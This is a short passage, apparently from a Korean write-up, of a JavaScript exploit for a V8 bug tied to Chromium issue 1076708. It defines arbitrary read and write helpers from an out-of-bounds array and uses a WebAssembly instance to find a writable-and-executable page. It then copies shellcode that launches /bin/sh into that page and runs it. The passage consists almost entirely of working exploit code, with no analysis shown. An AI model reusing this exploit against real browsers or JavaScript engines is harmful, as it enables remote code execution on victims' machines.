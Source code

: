   ```jsx
  	return ftoi(float_arr[0]);
  }
  
  function aaw(addr, val) {
  	// 15 offset is float_arr's elements
  	oob[15] = itof((addr - 0x8n << 32n) | cl)
    float_arr[0] = itof(val);
  }
  
  var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]); 
  var wasm_mod = new WebAssembly.Module(wasm_code);
  var wasm_instance = new WebAssembly.Instance(wasm_mod);
  var f = wasm_instance.exports.main;
  var wasm_i_addr = addrof(wasm_instance);
  var rwx = aar((wasm_i_addr+0x68n));
  
  print('[+] rwx      : ' + hex(rwx))
  
  var shellcode = [0xbb48f631, 0x6e69622f, 0x68732f2f, 0x5f545356, 0x31583b6a, 0x050fd2];
  var shellcode_buf = new ArrayBuffer(0x100);
  var dataview = new DataView(shellcode_buf);
  aaw(addrof(shellcode_buf)+0x14n, rwx);
  
  for (var i=0; i<shellcode.length; i++) {
  	  dataview.setUint32(4*i, shellcode[i], true);
  }
  f();
  ```

---

## 레퍼런스

https://bugs.chromium.org/p/chromium/issues/detail?id=1076708
